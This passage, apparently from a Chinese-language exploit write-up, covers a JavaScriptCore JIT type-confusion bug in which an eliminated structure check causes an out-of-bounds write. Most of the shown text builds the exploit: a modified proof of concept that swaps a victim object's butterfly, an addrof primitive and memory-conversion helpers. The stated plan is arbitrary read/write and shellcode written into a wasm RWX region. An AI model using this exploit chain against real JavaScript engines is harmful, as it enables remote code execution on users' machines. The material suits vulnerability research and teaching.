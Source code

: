 我这里是采用debug来输出信息，利用b *printInternal来当作断点，因为jsc没有提供像v8那样的%Debug机制，只有一个describe对标%DebugPrint能够输出对象信息，所以断点我们使用print当作临时断点。

[![](https://p0.ssl.qhimg.com/t01a3dd9d74026ae36f.png)](https://p0.ssl.qhimg.com/t01a3dd9d74026ae36f.png)

看的出来，确实被混淆了，传入的a2本身是没有e这个属性的，但是消除了checkstructure导致没有deopt，然后继续按照a1的structure来解析，所以导致这里的越界写。

有了这个POC我们就可以很轻松去构造exp了。第一种方法也是官方作者给的做法。

不过下面有几点需要注意的地方。

1.创建两个structure相同的对象，因为只有相同才会被放在临近地址，不同的话，地址差距会很大。会影响我们构造利用。

2.由于jsvalue的编码，ArrayWithContiguous数组类型存入数据时会把写入的值用jsvalue编码，具体可以参照上面基础知识部分，会在头部加上一个flag，类似0xfffe，那么这样对我们构造任意地址读写的时候，有很大的影响，具体也是可以绕过的，见第二种利用，但是如果直接写一个pointer的话，就不会有影响了。因为pointer存入进去在内存中还是pointer。

然后这里的思路就是利用 混淆去替换对象的butterfly，然后就利用被混淆的对象访问其数组元素就等于直接访问了 替换对象，[0] 就是替换对象的jscell，[1]就是 butterfly。后面就可以利用这个去构造任意地址R/W了。

下面我们修改POC。

```
var a1=`{`a:1.1,b:3.2,c:4.2,d:5.2,e:5.2,f:0.0`}`;
var a2=`{`a:1.1,b:26.6`}`
var a3=`{`a:1.1,b:26.6,0:1.1`}`//victim
var a4=`{`a:1.1,b:26.6,0:1.1`}`
function b(a,b)`{`
a.d=b;
`}`
//set args --useConcurrentJIT=false exp3.js
for(let i=0;i&lt;100;i++)`{`
b(a1,a4);
`}`
b(a2,a4);
```

•  根据v8惯例，这里写wasm的rwx段为shellcode，运行就可以执行shellcode了，要写的首先我们需要知道地址，所以这里先构造addrof函数，这个比较简单，我们先让a4的属性a为想要leak的obj，然后在利用a3 也就是被替换butterfly的对象，（下面直接称a*），去访问数组下标返回的就是地址。因为a3数组的类型是double，所以访问下标返回的是double。

```
function addrof(obj)`{`
a4.a=obj
return u64(a3[2]);
`}`
```

然后通过对其类型转换就可以得到对象的地址了。有了对象地址，就要想着去读对应偏移的内存得到rwx的地址，才能去写shellcode。

```
var buf=new ArrayBuffer(0x8);
var dv=new DataView(buf);
function b2h(addr)`{`
dv.setBigUint64(0,addr,true);
return dv.getUint32(4,true);
`}`
function b2l(addr)`{`
dv.setBigUint64(0,addr,true);
return dv.getUint32(0,true);
`}`
function u64(addr)`{`
dv.setFloat64(0,addr,true);
return dv.getBigUint64(0,true);
`}`
function hex(addr)`{`
return addr.toString(16);
`}`
function leak(name,addr)`{`
print("[+] "+name+"==&gt;0x"+hex(addr))
`}`
```